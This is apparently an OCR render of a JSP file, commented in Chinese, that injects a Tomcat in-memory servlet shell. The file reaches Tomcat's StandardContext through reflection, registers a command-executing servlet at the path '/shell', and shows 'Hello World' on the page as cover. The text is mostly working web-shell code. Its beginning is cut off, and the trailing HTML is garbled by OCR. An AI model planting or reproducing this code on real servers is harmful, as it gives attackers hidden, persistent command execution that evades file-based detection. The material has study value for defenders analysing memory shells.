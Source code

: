 ```
      } catch (IOException e) {
        output.append("Error executing command: ").append(e.getMessage());
      }
      return output.toString();
    }

    @Override
    public String getServletInfo() {
      return null;
    }

    @Override
    public void destroy() {
      // 销毁逻辑（可为空）
    }
  };
%>

<%
    // 使用反射获取 StandardContext 上下文
	// 在 JSP 中，request 是一个隐式对象，它是由 Servlet 容器（如 Tomcat）自动提供给每个请求的。request 对象是 HttpServletRequest 类型的实例，包含了与 HTTP 请求相关的信息，比如请求参数、请求头、请求方法等。你可以直接在 JSP 中使用它来获取这些信息。
	// HttpServletRequest继承了ServletRequest，所以可以取到ServletRequest.request这个字段
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
	// Request是一个继承了HttpServletRequest的对象，所以可以通过这种方式来拿到Request对象
    Request req = (Request) reqField.get(request);
	// Request提供了getContext的方法，所以这里可以取到context
    StandardContext stdContext = (StandardContext) req.getContext();

    
    String servletName = servlet.getClass().getSimpleName() + "_" + System.currentTimeMillis();
	// 创建并配置新的 Wrapper
    Wrapper newWrapper = stdContext.createWrapper(); 
    newWrapper.setName(servletName);
	// 设置为重启时加载
	// loadOnStartup默认值为-1，表示Servlet命中时加载
	// loadOnStartUp!=-1时，表示加载的优先级
    newWrapper.setLoadOnStartup(1);
    newWrapper.setServlet(servlet);
    newWrapper.setServletClass(servlet.getClass().getName());

    // 将 Servlet 添加到上下文也就是context中，这样我们就能够访问到这个Servlet了
    stdContext.addChild(newWrapper);
    stdContext.addServletMappingDecoded("/shell", servletName);
%>




  JSP - Hello World


# <%= "Hello World!" %>



["hello-servlet">Hello Servlet](<span)



```
